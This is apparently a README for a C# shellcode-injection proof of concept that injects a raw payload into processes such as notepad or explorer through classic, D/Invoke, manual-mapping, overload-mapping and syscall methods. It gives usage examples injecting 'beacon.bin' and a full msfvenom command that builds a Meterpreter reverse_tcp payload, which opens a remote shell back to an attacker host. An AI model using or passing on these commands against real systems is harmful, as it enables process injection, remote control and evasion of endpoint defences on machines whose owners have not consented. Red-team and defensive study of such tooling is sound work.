# CS-Dinvoke-ShellcodeInjection
DInvoke version Shellcode Injection POC in C#

Classic Injection, Dynamic API injection, Manual Mapping, Overload Mapping and Syscalls

	Usage: shellcodeinjection.exe <method> <Process Name> -f <rawfile path>

	Method: -c: classic -d: dynamicinvoke -m: manualmap -o: overload -s: syscalls


	Example 1: shellcodeinjection.exe -s notepad -f beacon.bin
	Example 2: shellcodeinjection.exe -d notepad -f 'C:\temp\beacon.bin'

	Example 3: shellcodeinjection.exe
	Default inject process: explorer
	Default inject payload: beacon.bin


For the rawfile, can generate with msfvenom to test:

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -o beacon.bin -f raw

Reference: https://github.com/crypt0ace/CS-ShellcodeInjection
